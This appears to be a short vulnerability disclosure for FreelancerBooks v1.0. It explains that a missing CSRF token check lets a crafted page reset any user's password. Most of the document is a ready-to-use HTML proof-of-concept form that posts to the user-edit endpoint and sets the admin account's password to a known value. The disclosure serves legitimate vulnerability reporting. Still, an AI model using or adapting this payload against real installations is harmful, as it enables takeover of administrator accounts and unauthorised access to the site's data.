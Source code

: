 There is a vulnerability in the FreelancerBooks v1.0 that allows a crafted page to reset the password of an arbitrary user.

There is a "random" value included as part of the request, but you can just generate the CSRF HTML without that value
and the password will still be changed.

Exploit POC:

````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://10.22.6.110/freelancer/freelancer_users_edit.php?submit=1&fly=1&editid1=1&" method="POST" enctype="multipart/form-data">

      <input type="hidden" name="value&#95;username&#95;7" value="admin" />

      <input type="hidden" name="value&#95;password&#95;7" value="admin1234567" />

      <input type="hidden" name="value&#95;email&#95;7" value="test&#64;test&#46;com" />

      <input type="hidden" name="value&#95;fullname&#95;7" value="Admin" />

      <input type="hidden" name="value&#95;groupid&#95;7" value="Admin" />

      <input type="hidden" name="value&#95;active&#95;7" value="1" />

      <input type="hidden" name="parId" value="1" />

      <input type="hidden" name="rowId" value="4" />

      <input type="hidden" name="table" value="freelancer&#95;users" />

      <input type="hidden" name="editType" value="3" />

      <input type="hidden" name="id" value="7" />

      <input type="hidden" name="onFly" value="1" />

      <input type="hidden" name="a" value="edited" />

      <input type="hidden" name="editid1" value="1" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>

````
